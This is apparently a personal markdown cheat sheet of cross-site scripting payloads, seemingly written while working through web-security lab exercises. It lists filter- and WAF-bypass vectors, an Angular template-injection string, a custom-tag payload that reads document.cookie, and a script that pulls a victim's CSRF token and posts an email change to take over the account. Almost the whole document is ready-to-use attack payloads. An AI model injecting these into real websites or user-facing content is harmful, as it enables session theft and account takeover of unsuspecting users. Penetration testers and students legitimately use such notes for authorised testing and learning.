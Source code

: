 ```yaml
---
title: Cross Site Scripting ( XSS )
tags:
  - payload
  - infosec
  - xss
---
```

1. Unique scripts which used to bypass specify situations
```javascript
onmouseover="alert('xss')
"><svg onload="alert('xss')">
<img src=# onerror='alert(1)'>
javascript:alert('xss')
'-alert(document.domain)-'
';alert(document.domain)//
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

2. DOM XSS with Angular expression
```javascript
{{constructor.constructor('alert(1)')()}}
```

3. Arithmetic operator with JS –> Cause Reflected DOM XSS
```javascript
\"-alert(1)}//
```

4. Stored DOM XSS bypass the encode bracket
```javascript
<><img src=1 onerror=alert(1)>
```

5. Script for executing CSRF Form for XSS by using token CSRF
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

6. Tip for causing XSS with block by WAF (web applications firewall)
- Brute force to find the tag can available
- Try to execute attribute with tag available
- And force the website do the event –> Execute the XSS  
	Example: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`

7. If on situation the server block all of tag can inject into the code –> we need to create them own like `<xss>`
```javascript
<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x
```

8. Payload can help you filter xss via press event by key button to causing the reflect
```javascript
%27accesskey=%27x%27onclick=%27alert(1)
```

9. If some case study like they add black splash `/` after you input that with quote so with causing reflect xss using close tag for `</script>` for ignore that situation and after that causing payload
```javascript
<\script><script>alert(1)<\script>
```
